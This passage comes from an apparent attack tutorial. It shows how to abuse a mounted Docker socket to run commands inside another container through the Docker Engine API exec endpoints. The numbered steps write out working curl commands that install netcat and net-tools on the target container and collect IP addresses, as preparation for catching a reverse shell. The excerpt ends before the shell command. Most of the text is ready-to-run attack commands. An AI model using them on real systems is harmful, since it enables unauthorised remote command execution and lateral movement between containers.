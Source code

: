	
Now we know that we have the ability to run command on another container (C2), we can get the complete shell access of C2 by getting reverse shell, We would need netcat installed on C2 that can send us the reverse shell. We would need netcat on container C1 as well to catch the reverse shell.

5. Installing netcat on C1:

	`apt install -y netcat` (As simple as that)
	
6. Installing netcat on C2, Not that simple; Use the same curl technique to run command remotely:

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","netcat"] }'`
	
	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`


7. You can check if netcat has been installed properly

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["which","nc"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

8. Similarly, net-tools can be installed, however not needed, just to check the IP address of C2. But we would need the IP address of C1 (to send the reverse shell).

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["apt","install","-y","net-tools"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

9. Check IP address of C1:

	`ifconfig`
	
(Lets assume its 172.17.0.3)

10. Check IP address of C2:

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["ifconfig"] }'`

	Copy the ExecID and paste in the next command.
	